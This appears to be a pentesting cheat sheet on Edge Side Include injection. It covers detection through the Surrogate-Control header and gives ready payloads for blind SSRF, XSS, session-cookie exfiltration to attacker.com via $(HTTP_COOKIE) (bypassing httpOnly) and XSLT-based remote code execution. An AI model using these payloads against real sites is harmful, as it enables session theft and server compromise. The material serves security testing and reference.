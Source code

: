 ### ESI Expressions
Example:
```js
<esi:include src="/weather/name?id=$(QUERY_STRING{city_id})"/>
```

### ESI Detection
In most cases, using a Blind Attack approach

If u see the header:
```
Surrogate-Control: content="ESI/1.0"
# in this case, u can suspect that ESI is in use. 
# However, in most cases, there will be no sign of using ESI
```

To detect with Blind approach, the user can try to inject tags that cause the proxies to resolve arbitrary addresses resulting in SSRF:
```
<esi:include src=http://attacker.com/>
```

### ESI Exploitation
Might be possible to include a HTML file resulting in XSS:
```js
<esi:include src=http://attacker.com/xss.html>
```

The xss.html can contain similar code:
```js
<script>alert(1)</script>
```

Exfiltrate cookies directly by referring to a special variable:
```js
<esi:include src=http://attacker.com/$(HTTP_COOKIE)>
# which can bypass the httpOnly flag in case of its presence
```

There is a possibility For RCE when the app has support For XSLT

- XLST is a dynamic language used to transform XML files according to a specific pattern

The Payload For the ESI Injection to the XSLT execution:
```js
<esi:include src="http://attacker.com/file.xml" dca="xslt" stylesheet="http://attacker.com/transformation.xsl" />
```

Moreover:
```
- https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection
- https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations
```



